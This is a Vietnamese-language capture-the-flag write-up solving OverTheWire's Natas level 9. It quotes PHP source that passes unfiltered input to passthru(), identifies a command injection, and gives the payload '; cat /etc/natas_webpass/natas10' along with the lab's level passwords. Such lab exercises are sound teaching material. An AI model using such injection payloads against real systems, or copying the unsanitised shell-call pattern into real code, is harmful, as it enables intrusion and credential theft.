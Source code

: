 # Natas Level 9

## 🔑 Mục tiêu
Tìm password cho level tiếp theo.

**URL: http://natas9.natas.labs.overthewire.org**     
**Credential: natas9:*xcoXLmzMkoIP9D7hlgPlh9XD7OgLAe5Q***

## 🛠️ Các bước thực hiện
1. Tổng quan trang web:    
![alt text](Image/Natas9-1.png)

-Tương tự với level trước.

2. Xem source code, ta lấy được 1 đoạn PHP:   
```PHP
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    passthru("grep -i $key dictionary.txt");
}
?>
```

-Hàm ```passthru``` là hàm PHP dùng để thực thi lệnh hệ thống (system command) và in kết quả trực tiếp ra output.

-Phân tích chút thì biến ```key``` là input từ user nhập và không được filter mà được ném thẳng vào hàm ```passthru()```

==>Có thể dính ```Command Injection```.

-Thử với payload: ```; cat /etc/natas_webpass/natas10``` và nhận được key. 


## 📌 Key: ```t7I5VHvpa14sJTUGV0cbEsbYfFP2dmOu```